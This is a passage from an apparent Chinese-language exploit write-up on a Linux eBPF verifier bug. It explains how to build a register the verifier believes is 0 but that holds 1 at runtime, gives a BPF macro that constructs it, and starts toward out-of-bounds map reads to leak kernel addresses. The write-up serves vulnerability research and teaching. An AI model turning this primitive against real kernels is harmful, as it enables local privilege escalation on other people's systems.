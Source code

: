 此时我们的寄存器 R6 32位边界值为 [1, 1]，之后 verifier 会调用 __reg_bound_offset() 反向赋值给 var_off，此时我们的 var_off 的 32 位值便为 1，但实际上的 32 位值为 0，我们便获得了一个  
运行时为 0 、verifier 认为是 1 的寄存器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZIrEVjscIm5ibhmddP7fS42bQlFFkRC0vweKNHGnMkicP7j6Haib2h6uftnicgvaOXibS9f5PBN1leoBgA/640?wx_fmt=png "")  
  
这样一个寄存器好像对我们来说没有太多作用，但如果我们再给 R6 加上 1 ，从而使得 32 位 var_off 变为 2，  
但实际上的 32 位值为 1，我们再将 R6 与 1 做 & 运算，  
verifier 便会认为该寄存器的值变为 0，但其实际上的运行时值为 1  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZIrEVjscIm5ibhmddP7fS42bT1Hp2ZKvMicVKunE7Nx43BKGjTlnAJTsSlkAN3GwK8hlLYfweic3yuBg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZIrEVjscIm5ibhmddP7fS42b7xlb6icd4UsbqfhcVZJhhiaMer72ZiaDsibaBELhEwoiaVKN6o4fbIvl8xg/640?wx_fmt=png "")  
  
有了这样一个寄存器，后面我们就可以开始为所欲为了：）  
  
对于 R7 的构造，我们可以先从 map 中取值获取一个 verifier 全不可知的寄存器，之后利用 32 位判断跳转指令 BPF_JMP32_IMM(BPF_JLE, BPF_REG_7, 1, 2) 使其变为 { .var_off = 0, .mask = 0xffffffff00000001} 即可，map 中的值是我们可控的所以我们可以使其运行时值为 0 ：  
> 注：你也可以先给 R6 += 1 再 R6 &= R7，效果是一样的  
  
```
#define MAKE_VULN_REG(__map_fd)                         \        /* load value into r3, make it [0, 1] under 32 bit */                \        BPF_READ_ARRAY_MAP_IDX(0, __map_fd, BPF_REG_8), \        BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),   \        BPF_JMP32_IMM(BPF_JLE, BPF_REG_7, 1, 2),        \        BPF_MOV64_IMM(BPF_REG_0, 0),                    \        BPF_EXIT_INSN(),                                \        BPF_ALU64_REG(BPF_ADD, VULN_REG, BPF_REG_7),    \        BPF_ALU64_IMM(BPF_ADD, VULN_REG, 0x1),          \        BPF_ALU64_IMM(BPF_AND, VULN_REG, 0x1),          \        BPF_MOV64_IMM(BPF_REG_0, 0)
```  
> 可能大家会想到对于条件跳转指令而言 verifier 主要根据边界值进行判断，或许我们能够构造一个运行时为真但 verifier 认为假的条件跳转语句（例如 BPF_JMP32_IMM(BPF_JGE, BPF_REG_6, 1, 1)）并在 verifier 认为恒为假但运行时为真的分支中隐藏恶意指令：  
>  复制代码 隐藏代码static int is_branch32_taken(struct bpf_reg_state *reg, u32 val, u8 opcode){        struct tnum subreg = tnum_subreg(reg->var_off);        s32 sval = (s32)val;        switch (opcode) {        //...        case BPF_JGE:                if (reg->u32_min_value >= val)                        return 1;                else if (reg->u32_max_value < val)                        return 0;  
> 但这并不是一个可行的方案，因为对于不可达指令（dead code），  
verifier会将其 patch 为跳转回条件分支指令，从而导致我们无法在此处藏入恶意代码：  
>  复制代码 隐藏代码static void sanitize_dead_code(struct bpf_verifier_env *env){        struct bpf_insn_aux_data *aux_data = env->insn_aux_data;        struct bpf_insn trap = BPF_JMP_IMM(BPF_JA, 0, 0, -1);        struct bpf_insn *insn = env->prog->insnsi;        const int insn_cnt = env->prog->len;        int i;        for (i = 0; i < insn_cnt; i++) {                if (aux_data[i].seen)                        continue;                memcpy(insn + i, &trap, sizeof(trap));        }}  
  
## 三、内核地址泄露  
  
接下来我们考虑如何泄露内核地址，比较容易想到的是我们或许可以通过这个运行时为 1 而 verifier 认为是 0 的寄存器构造一些越界读取，而 map 是我们能够直接接触到的指针之一，因此我们可以尝试从此处下手  
  
我们是否可以直接向  BPF_FUNC_map_lookup_elem()  传入一个 verifier 确信为 0 但实际上是负数的寄存器呢？  
答案是否定的，因为对于 BPF_MAP_TYPE_ARRAY 类型的 map 而言在查找元素时实际上会调用到 array_map_lookup_elem() ，其 index 为无符号类型，因此我们无法前向读取：  
```
/* Called from syscall or from eBPF program */
static void *array_map_lookup_elem(struct bpf_map *map, void *key)
{
        struct bpf_array *array = container_of(map, struct bpf_array, map);
        u32 index = *(u32 *)key;

        if (unlikely(index >= array->map.max_entries))
                return NULL;

        return array->value + array->elem_size * (index & array->index_mask);
}
```  
  